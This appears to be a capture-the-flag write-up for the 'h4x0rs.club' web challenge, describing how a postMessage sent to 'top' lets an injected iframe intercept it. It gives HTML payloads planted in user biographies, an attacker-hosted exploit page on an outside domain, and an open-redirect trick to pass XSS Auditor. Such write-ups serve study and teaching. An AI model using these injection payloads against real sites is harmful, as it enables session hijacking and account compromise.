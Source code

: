 # h4x0rs.club part 2

Upload [exploit.html](exploit.html) and [alert.js](alert.js) to `l4w.io` for example.

Create 2 users: `blah1` && `blah2`

Root cause:

Because on the backend side, they will send a message to `top` not `parent` . so we can inject our evil iframe in the middle.

### blah1
Set biography as the following:
```
<a href='//l4w.io/exploit.html' id=report-btn>
```

### blah2
Set biography as the following:
```
<a href='/game/?msg=<iframe name=game_server src=/game/user.php/blah1%23report><iframe>' id=report-btn></a>
```

`<iframe>` with a location src is allowed by XSS Auditor. So using open-redirect for 2 various reason.

Then report `blah2` user along with `#report`


# h4x0rs.club part 3

I really like my idea behind this one. Pwn the binary with full mitigations shipped. 

Hopefully someone can write about it :(